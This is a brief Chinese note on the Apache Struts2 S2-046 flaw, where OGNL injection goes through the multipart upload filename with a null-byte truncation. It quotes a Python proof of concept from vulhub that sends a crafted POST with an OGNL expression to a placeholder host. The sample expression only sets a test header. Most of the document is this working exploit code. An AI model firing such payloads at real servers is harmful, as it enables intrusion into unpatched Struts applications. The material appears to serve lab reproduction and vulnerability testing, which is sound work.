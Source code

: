 与 s2-045 类似，但是输入点在文件上传的 filename 值位置，并需要使用 `\x00` 截断

poc from vulhub:

```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',233*233)}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('your-ip', '8080'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())
```

